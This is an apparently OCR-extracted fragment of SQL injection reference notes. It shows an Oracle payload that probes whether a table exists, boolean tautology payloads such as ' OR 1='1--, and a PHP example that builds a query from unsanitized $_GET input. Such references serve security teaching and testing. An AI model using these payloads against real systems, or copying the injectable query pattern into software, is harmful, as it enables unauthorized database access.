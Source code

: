 ## Verify SQL object existence

Oracle 
The `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.

`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`


```SELECT some,columns,here FROM some_table WHERE some > columns AND here !=0```

```UPDATE some_table SET some=1, columns=2, here=3 WHERE id=5```

```INSERT INTO some_table (some, columns, here) VALUES (1, 2, 3)```

Example of vulnerable SQL query which accepts user input

```php
<?php
$name = $_GET['name'];
$results = mysql_query("SELECT age, grade, teacher FROM students WHERE (name = '$name')");
?>
```

```' OR 1='1-- ``` (constant TRUE returns all rows)  
```' AND 0='1-- ``` (constant FALSE returns no rows)